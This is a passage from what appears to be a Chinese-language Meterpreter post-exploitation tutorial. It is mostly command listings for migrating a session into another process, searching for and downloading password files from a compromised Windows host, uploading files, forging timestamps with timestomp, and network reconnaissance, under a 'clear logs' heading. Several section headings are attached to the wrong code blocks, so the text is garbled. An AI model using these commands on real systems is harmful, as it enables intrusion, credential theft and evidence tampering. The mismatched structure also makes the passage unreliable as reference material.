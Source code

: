 [![](https://xzfile.aliyuncs.com/media/upload/picture/20180806232238-8db2c63e-998c-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180806232238-8db2c63e-998c-1.png)

5）migrate 进程迁移

```
getpid    # 获取当前进程的pid
ps   # 查看当前活跃进程
migrate <pid值>    #将Meterpreter会话移植到指定pid值进程中
kill <pid值>   #杀死进程
```

6）clearav 清除日志

```
getwd 或者pwd # 查看当前工作目录  
ls
cd
search -f *pass*       # 搜索文件  -h查看帮助
cat c:\\lltest\\lltestpasswd.txt  # 查看文件内容
upload /tmp/hack.txt C:\\lltest  # 上传文件到目标机上
download c:\\lltest\\lltestpasswd.txt /tmp/ # 下载文件到本机上
edit c:\\1.txt #编辑或创建文件  没有的话，会新建文件
rm C:\\lltest\\hack.txt
mkdir lltest2  #只能在当前目录下创建文件夹
rmdir lltest2  #只能删除当前目录下文件夹
getlwd   或者 lpwd   #操作攻击者主机 查看当前目录
lcd /tmp   #操作攻击者主机 切换目录
```

### 0x02. 文件系统命令

1）基本文件系统命令

```
timestomp C:// -h   #查看帮助
timestomp -v C://2.txt   #查看时间戳
timestomp C://2.txt -f C://1.txt #将1.txt的时间戳复制给2.txt
```

2）timestomp 伪造时间戳

```
ipconfig/ifconfig
netstat –ano
arp
getproxy   #查看代理信息
route   #查看路由
```

[![](https://xzfile.aliyuncs.com/media/upload/picture/20180806232238-8dc36548-998c-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180806232238-8dc36548-998c-1.png)

### 0x03. 网络命令

1）基本网络命令
